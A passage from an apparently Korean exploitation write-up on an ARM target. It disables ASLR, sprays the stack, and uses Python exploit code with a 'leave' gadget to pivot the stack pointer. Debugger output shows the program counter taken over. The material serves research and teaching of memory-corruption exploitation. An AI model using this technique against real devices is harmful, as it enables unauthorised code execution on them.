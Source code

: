```
# echo 0 > /proc/sys/kernel/randomize_va_space
# cat /proc/sys/kernel/randomize_va_space
0
```

ASLR이 비활성화 된 후, 스프레이를 먼저 수행하여 core dump를 확인합니다.

```
(gdb) x/32wx $sp+0x380
0xbefe1d98:     0x6161616b      0x6161616c      0x6161616d      0x6161616e
0xbefe1da8:     0xbefe1ddc      0x44444444      0x3d737300      0x41414141
0xbefe1db8:     0x41414141      0x41414141      0x41414141      0x41414141
0xbefe1dc8:     0x41414141      0x41414141      0x41414141      0x41414141
0xbefe1dd8:     0x41414141      0x41414141      0x41414141      0x41414141
```

Stack spray가 `0xbefe1db4`에서 시작합니다. 해당 주소로 `sp`를 변조합니다.

```python
SPRAY_LEN = 0xf000
leave  = 0x00010ca0 # sub sp, r11, 4; pop {r11, pc}

def payload(r11, lr, dummy_len):
    payload = cyclic(dummy_len).decode()
    payload += purl32(r11)
    payload += purl32(lr)
    return payload

def spray():
    spray = "A"*SPRAY_LEN
    return spray

def exploit():
# ...
    stack  = 0xbefe1db4+4
    pload  = payload(stack, leave, dummy_len)
    param  = form_param(pload, spray())
    packet = form_packet(ip, param, command)
# ...
```

위의 코드를 실행 후 다시 `gdb`로 확인합니다.

```
(gdb) x/16wx $sp-0x10
0xbefe1dac:     0x00010ca0      0x3d737300      0x41414141      0x41414141
0xbefe1dbc:     0x41414141      0x41414141      0x41414141      0x41414141
0xbefe1dcc:     0x41414141      0x41414141      0x41414141      0x41414141
0xbefe1ddc:     0x41414141      0x41414141      0x41414141      0x41414141
(gdb) i r pc
pc             0x41414140       0x41414140
(gdb)
```

정상적으로 `pc`가 변조되었습니다.
